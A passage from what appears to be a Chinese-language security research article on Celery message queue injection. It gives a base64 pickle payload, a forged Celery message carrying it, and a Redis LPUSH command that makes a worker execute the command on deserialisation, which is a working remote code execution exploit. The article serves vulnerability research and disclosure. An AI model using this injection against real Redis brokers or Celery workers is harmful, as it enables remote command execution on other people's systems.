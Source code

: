 运行程序生成具体 Payload 数据：

```
Y2NvbW1hbmRzCmdldHN0YXR1c291dHB1dApwMAooUydscycKcDEKdHAyClJwMwou
```

使用刚才分析过的消息数据，将消息主体的值替换为上面生成的 Payload 得到构造的假消息：

```json
{
    "body": "Y2NvbW1hbmRzCmdldHN0YXR1c291dHB1dApwMAooUydscycKcDEKdHAyClJwMwou",
    "headers": {},
    "content-encoding": "binary",
    "content-type": "application/x-python-serialize",
    "properties": {
        "body_encoding": "base64",
        "reply_to": "c8b55284-c490-3927-85c5-c68a7fed0525",
        "correlation_id": "1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe",
        "delivery_info": {
            "routing_key": "celery",
            "exchange": "celery",
            "priority": 0
        },
        "delivery_mode": 2,
        "delivery_tag": "027bd89a-389e-41d1-857a-ba895e6eccda"
    }
}
```

将假消息通过 Redis 命令行直接添加到 `celery` 队列任务中：

```bash
127.0.0.1:6379> LPUSH celery '{"body":"Y2NvbW1hbmRzCmdldHN0YXR1c291dHB1dApwMAooUydscycKcDEKdHAyClJwMwou","headers":{},"content-encoding":"binary","content-type":"application/x-python-serialize","properties":{"body_encoding":"base64","reply_to":"c8b55284-c490-3927-85c5-c68a7fed0525","correlation_id":"1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe","delivery_info":{"routing_key":"celery","exchange":"celery","priority":0},"delivery_mode":2,"delivery_tag":"027bd89a-389e-41d1-857a-ba895e6eccda"}}'
```

查看一下 `celery` 队列中的消息情况：

![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/10.png)

然后起一个 Celery worker 端加载之前的 `celery_simple.py` 中的 APP，worker 会从队列中取消息进行处理，当处理到插入的假消息时，会由于无法解析任务数据而报错：

![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/11.png)

worker 端经过 `pickle.loads(base64.b64decode(body))` 处理对构造的 Payload 进行的反序列化，由于 Payload 在反序列化时会执行命令并返回执行结构，所以这里 worker 端直接将命令执行的结果当作了任务的具体数据，同时也证明了在 Celery 分布式框架默认配置下（使用了 `pickle` 序列化方式），进行恶意消息注入会导致 worker 端远程命令执行。

### 三、利用脆弱的 Broker 代理进行分布式节点攻击

前面已经证明了 Celery 构建的应用中，如果攻击者能够控制 Broker 往消息队列中添加任意消息数据，那么即可构造恶意的消息主体数据，使得 worker 端在对其进行反序列化的时候触发漏洞导致任意命令执行。整个流程为：
